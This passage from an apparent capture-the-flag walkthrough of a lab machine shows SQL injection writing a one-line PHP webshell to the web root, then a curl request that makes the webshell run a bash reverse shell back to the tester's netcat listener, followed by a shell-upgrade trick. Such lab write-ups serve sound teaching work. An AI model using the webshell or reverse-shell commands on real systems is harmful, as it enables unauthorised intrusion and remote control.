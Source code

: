 

It doesn't return anything, because if it worked, it would return 0
columns, when it's trying to union with 1 column, which will lead to an
error (after it writes the file).

The file does exist on the server:

![](/img/image-20210913214425073.png)

#### Write Shell

I'll run that again, but this time write a simple PHP webshell:



    > select "<?php SYSTEM($_REQUEST['cmd']); ?>" into outfile '/var/www.md/0xdf.php'



It worked:

![](/img/image-20210913214546110.png)

### Shell

To get a full shell, I'll start `nc` on 443 and run:



    oxdf@parrot$ curl 10.10.11.116/0xdf.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.60/443 0>&1"'



It hangs, but at `nc`:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.60] from (UNKNOWN) [10.10.11.116] 35078
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@validation:/var/www.md$ 



And upgrade the shell using the `script` trick:



    www-data@validation:/var/www.md$ script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    www-data@validation:/var/www.md$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@validation:/var/www.md$ 
